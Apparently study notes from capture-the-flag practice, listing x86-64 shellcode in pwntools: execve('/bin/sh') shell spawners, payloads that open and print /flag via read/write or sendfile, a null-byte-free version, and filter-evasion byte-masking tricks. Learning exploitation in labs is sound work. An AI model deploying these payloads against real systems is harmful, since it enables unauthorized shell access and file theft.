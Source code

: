 # Shellcode

### basic shell 1
```python
shellcode = pwn.asm('''
    mov rax, 59;
    lea rdi, [rip + sh];
    mov rsi, 0;
    mov rdx, 0;
    syscall;
    ret;
sh:
    .string "/bin/sh"
''')
```

### basic shell 2
```python
shellcode = pwn.asm('''
    mov rax, 59;
    mov rbx, 0x0068732f6e69622f;
    push rbx;
    mov rdi, rsp;
    mov rsi, 0;
    mov rdx, 0;
    syscall;
''')
```

### read + write flag (practice-2)
```c
    # fd_flag = open("/flag", O_RDONLY)
    mov rdi, <address of flag_file>;
    mov rsi, 0;
    mov rax, 2;
    syscall;

    # read fd_flag into flag_buffer
    mov rdi, rax;
    mov rax, 0;
    mov rsi, <address of flag_buffer>;
    mov rdx, 100;       
    syscall;

    # write flag_buffer to stdout
    mov rax, 1;
    mov rdi, 1;
    mov rsi, <address of flag_buffer>;
    mov rdx, 100;
    syscall;
                             
    ret;
string:
    .string "/flag"
```


### send /flag 1
- overview:
```c
// 1
fd_flag = open("/flag", O_RONLY);
// 2
sendfile(stdout, fd_flag, 0, 1024);
// 3
exit(EXIT_SUCCESS); 
```
```python
shellcode = pwn.asm('''
    mov rbx, 0x00000067616c662f; # push "/flag", the 'number' is stored in little endien in memory, so acutally '/flag\x00\x00\x00' stored 
    push rbx;                    # /flag now on stack
    mov rax, 2;
    mov rdi, rsp;                # rdi now points to string /flag
    mov rsi, 0;                  # read only 
    syscall;                     # now fd_flag in rax (return value)              

    mov rdi, 1;                  # stdout
    mov rsi, rax;                
    mov rdx, 0;                  # 0 bytes offset
    mov r10, 1000;               # read 1000 bytes
    mov rax, 40;
    syscall;                     # now flag is printed in terminal

    mov rdi, 0; 
    mov rax, 60;
    syscall
''')
```

### send /flag 2
```python
shellcode = pwn.asm('''
    lea rdi, [rip + string]; # fd_flag = open("/flag", O_RDONLY)
    mov rsi, 0;
    mov rax, 2;
    syscall;
                    
    mov rdi, 1; # sendfile(stdout, fd_flag, 0, 1024)
    mov rsi, rax;
    mov rdx, 0;
    mov r10, 1000;
    mov rax, 40;
    syscall;
                             
    ret;
string:
    .string "/flag"
''')
```

### send /flag 3 (no null bytes)
```python
shellcode = pwn.asm('''
    push rbx;
    
    ;#mov rbx, 0x00000067616c662f; # fd_flag = open("/flag", O_RDONLY)
    xor rbx, rbx
    mov bl, 0x67;
    shl rbx, 32;
    add rbx, 0x616c662f;
    push rbx;
    mov rdi, rsp;
    xor rax, rax;
    mov al, 2;   
    xor rsi, rsi;
    syscall;          
     
    xor rdi, rdi; # sendfile(stdout, fd_flag, 0, 1024)
    inc rdi;
    mov rsi, rax;
    xor rdx, rdx;
    xor rax, rax;              
    mov ax, 1000;
    mov r10, rax;
    xor rax, rax;
    mov al, 40;              
    syscall;

    pop rbx;                    
    ret;    
''')
```


### Trick, mask 1 trash byte via PUSH imm8
- 1 byte fix (0x6a), then 1 byte arbitrary
```
shellcode = pwn.asm('''             
    push 0x11; # 6a11 (0x6a plus 1 byte immediate value)
''')
```

### Trick, mask 2 bytes trash via PUSHW imm16
- 2 bytes fix (0x6668), then 2 byte arbitrary
```
pushw 0xb848; # 6668 48b8 (0x6668 plus 2 bytes immediate value)
```

### Trick, mask 4 trash bytes via PUSH imm32
- 1 byte fix (0x64), then 4 bytes arbitrary
```
shellcode = pwn.asm('''
    push 0x11223344; #6844332211 (0x68 plus 4 byte immediate value in little endian)
''')
```

### Trick, jump over trash bytes via JUMP rel8
- 1 byte fix (0xeb) and 1 byte jump offset (-128,+127)
```
shellcode = pwn.asm('''             
    nop; # do sth
    jmp $+4;
    .byte 0x11, 0x22;
    nop; # do sth
''')
```
- one cloud also use a label
```
shellcode = pwn.asm('''             
    nop; # do sth
    jmp continue;
trash:
    .byte 0x11, 0x22;
continue:
    nop; # do sth
''')
```